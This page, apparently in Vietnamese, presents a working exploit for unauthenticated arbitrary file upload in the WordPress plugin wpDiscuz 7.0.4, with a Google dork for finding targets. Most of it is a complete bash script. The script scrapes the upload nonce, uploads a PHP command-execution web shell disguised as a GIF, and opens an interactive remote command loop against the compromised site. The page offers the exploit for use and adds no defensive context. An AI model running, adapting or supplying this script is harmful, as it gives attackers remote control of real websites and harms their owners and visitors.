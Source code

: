 ```yaml
---
title: Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Unauthenticated)
date: 7/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-bash-blue.svg)](https://www.gnu.org/software/bash/)

## Mô Tả 
Liên kết zip: [wpdiscuz.7.0.4.zip](https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip)
Tác giả gốc: Chloe Chamberland 
Tác giả khai thác: Juampa Rodríguez aka UnD3sc0n0c1d0
Phiên bản: 7.0.4
Google Dork: inurl:/wp-content/plugins/wpdiscuz/ 

--- 
## Run 
```shell
exploit.sh http://target/index.php/2021/06/06/post
```
## Bash

```bash
#!/bin/bash

if [ -z $1 ]
then
  echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
  exit 0
elif [ -z $2 ]
then
  echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
  exit 0
else

post=$(curl -sI http://$1$2/ | head -n1)

if [[ "$post" == *"200 OK"* ]]; then
    wmu_nonce=$(curl -s http://$1$2/ | sed -r "s/wmuSecurity/\nwmuSecurity/g" | grep wmuSecurity | cut -d '"' -f3)
    webshell=$(curl -isk -X 'POST' -H 'X-Requested-With: XMLHttpRequest' -H 'Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryUnD3s' --data-binary $'-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"action\"\x0d\x0a\x0d\x0awmuUploadFiles\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_nonce\"\x0d\x0a\x0d\x0a'$wmu_nonce$'\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmuAttachmentsData\"\x0d\x0a\x0d\x0aundefined\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_files[0]\"; filename=\"a.php\" Content-Type: image/jpeg\x0d\x0a\x0d\x0aGIF8\x0d\x0a<?php\x0d\x0aif(isset($_REQUEST[\'cmd\'])){\x0d\x0a        $cmd = ($_REQUEST[\'cmd\']);\x0d\x0a        system($cmd);\x0d\x0a        die;\x0d\x0a}\x0d\x0a?>\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"postId\"\x0d\x0a\x0d\x0a18\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s--\x0d\x0a' http://$1/wp-admin/admin-ajax.php | sed 's/\":"\http/\nhttp/g' | grep "http\:\\\\/" | cut -d '"' -f1 | sed 's/\\//g')

    echo -e "\nWebshell:" $webshell"\n"
    echo -e "--------------WIN--------------"
    echo -e "        ¡Got  webshell!        "
    echo -e "-------------------------------\n"
    while :
    do
    read -p '$ ' command
    curl -s $webshell?cmd=$command | grep -v GIF8
done
else
    echo -e "\n[!] The indicated post was not found\n"
fi
fi
```

---

## Chúc May Mắn :D